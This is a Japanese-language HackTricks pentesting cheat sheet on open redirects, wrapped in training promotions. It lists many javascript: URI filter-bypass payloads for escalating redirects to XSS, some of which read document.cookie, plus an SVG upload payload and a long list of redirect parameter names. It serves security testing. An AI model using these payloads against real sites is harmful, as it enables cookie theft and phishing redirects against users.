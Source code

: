 # Open Redirect

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**モバイルセキュリティ**の専門知識を8kSecアカデミーで深めましょう。自己ペースのコースを通じてiOSとAndroidのセキュリティをマスターし、認定を取得しましょう：

{% embed url="https://academy.8ksec.io/" %}

## オープンリダイレクト

### localhostまたは任意のドメインへのリダイレクト

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

### XSSへのオープンリダイレクト
```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

# Abuse bad subdomain filter
javascript://sub.domain.com/%0Aalert(1)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
## Open Redirect SVGファイルのアップロード
```markup
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```
## 一般的なインジェクションパラメータ
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```
## コード例

#### .Net
```bash
response.redirect("~/mysafe-subdomain/login.aspx")
```
#### Java
```bash
response.redirect("http://mysafedomain.com");
```
#### PHP
```php
<?php
/* browser redirections*/
header("Location: http://mysafedomain.com");
exit;
?>
```
## ツール

* [https://github.com/0xNanda/Oralyzer](https://github.com/0xNanda/Oralyzer)

## リソース

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect) ではファジングリストを見つけることができます。\\
* [https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)\\
* [https://github.com/cujanovic/Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
* [https://infosecwriteups.com/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a](https://infosecwriteups.com/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**モバイルセキュリティ**の専門知識を8kSecアカデミーで深めましょう。自己ペースのコースを通じてiOSとAndroidのセキュリティをマスターし、認定を取得しましょう：

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
